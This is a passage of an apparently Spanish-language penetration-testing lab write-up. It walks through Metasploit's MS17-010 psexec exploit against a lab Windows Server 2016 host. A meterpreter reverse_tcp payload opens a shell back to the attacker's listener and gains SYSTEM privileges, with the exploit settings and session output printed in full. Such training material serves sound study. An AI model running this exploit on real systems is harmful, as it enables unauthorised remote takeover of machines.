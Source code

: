 ### Validar Nuestras Opciones

```plaintext
msf6 exploit(windows/smb/ms17_010_psexec) > show options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting              Required  Description
   ----                  ---------------              --------  -----------
   RHOSTS                10.129.201.97                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445                          yes       The Target port (TCP)
   SHARE                 ADMIN$                       yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                            no        The Windows domain to use for authentication

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.12      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

En esta ocasión, usamos un payload básico **windows/meterpreter/reverse\_tcp**. También puedes modificar el payload para un tipo de shell diferente u obfuscar más el ataque, como se ha mostrado anteriormente en la sección de payloads.

#### Ejecutar el Ataque y Recibir la Conexión

```plaintext
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.12:4444 
[*] 10.129.201.97:445 - Target OS: Windows Server 2016 Standard 14393
[*] 10.129.201.97:445 - Built a write-what-where primitive...
[+] 10.129.201.97:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.129.201.97:445 - Selecting PowerShell target
[*] 10.129.201.97:445 - Executing the payload...
[+] 10.129.201.97:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.129.201.97
[*] Meterpreter session 1 opened (10.10.14.12:4444 -> 10.129.201.97:50215) at 2021-09-27 18:58:00 -0400

meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
